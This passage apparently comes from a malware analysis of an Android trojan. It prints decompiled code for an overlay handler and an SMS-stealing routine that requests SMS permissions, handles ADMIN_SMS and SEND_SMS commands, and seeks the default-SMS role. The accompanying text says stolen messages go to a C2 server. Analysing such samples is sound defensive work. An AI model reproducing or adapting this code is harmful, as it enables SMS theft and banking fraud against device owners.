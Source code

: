 ```cs

        label_107:
            c.m().m(0, "WebActivity HTML_OVERLAY_URL: null");
            this.M();
        }
        catch(Exception unused_ex) {
        }
    }
```

## Steal SMS

The malware collect the SMS stored in the victim's device and send it to C2 server. 


```cs
   protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        try {
            aa.m();
            new String("ComposeSms onCreate");
            String s = this.getIntent().getStringExtra("data");
            this.b = this.getIntent().getStringExtra("ats");
            int v = -1;
            int v1 = s.hashCode();
            if(v1 == 0xA7794C29) {
                if(s.equals("ADMIN_SMS")) {
                    v = 0;
                }
            }
            else if(v1 == 0x50BDF8FA) {
                if(s.equals("configSaveSMS")) {
                    v = 1;
                }
            }
            else if(v1 == 2031367170 && (s.equals("SEND_SMS"))) {
                v = 2;
            }

            if(v != 0) {
                switch(v) {
                    case 1: {
                        this.m(this, new String[]{"android.permission.RECEIVE_SMS"}, 0x7B);
                        break;
                    }
                    case 2: {
                        this.m(this, new String[]{"android.permission.SEND_SMS"}, 0x7B);
                        break;
                    }
                    default: {
                        c.m().m(1, new StringBuilder().insert(0, "ComposeSms bad data: ").append(s).toString());
                    }
                }
            }
            else if(Build.VERSION.SDK_INT >= 29) {
                RoleManager roleManager0 = (RoleManager)this.getSystemService(RoleManager.class);
                if((roleManager0.isRoleAvailable("android.app.role.SMS")) && !roleManager0.isRoleHeld("android.app.role.SMS")) {
                    this.startActivityForResult(roleManager0.createRequestRoleIntent("android.app.role.SMS"), 1);
                }
            }
            else {
```